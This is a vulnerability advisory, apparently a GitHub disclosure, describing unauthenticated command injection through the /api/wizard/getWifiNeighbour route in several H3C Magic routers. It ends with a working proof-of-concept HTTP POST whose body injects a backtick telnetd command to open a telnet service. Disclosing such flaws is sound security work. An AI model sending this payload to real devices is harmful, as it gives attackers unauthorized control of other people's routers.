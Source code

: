 ## Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Guan Qing Wen(2144987805@qq.com)

**Affected products:** H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro

**Affected firmware version:** <=V100R014 (Taking NX15 as an example.)

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

## Overview

In the `H3C` `Magic` series products, including `H3C Magic NX15`, `H3C NX400`, `H3C Magic R3010`, `H3C Magic BE18000`, and `H3C Magic NX30 Pro`, an attacker can send a specially crafted `POST` packet to the `/api/wizard/getWifiNeighbour` route without authorization, allowing them to obtain the highest privileges on the device.

## Vulnerability details

In the `api` file, the `FCGI_WizardProcess` function contains the `/wizard/getWifiNeighbour` route, which can trigger the corresponding handler function

![image-20250314163741195](https://raw.githubusercontent.com/Qwen11/picture/main/202503141637257.png)

Due to the failure to filter backticks as dangerous characters, command injection occurs

![image-20250314163825207](https://raw.githubusercontent.com/Qwen11/picture/main/202503141638325.png)

## Poc

```
POST /api/wizard/getWifiNeighbour HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```
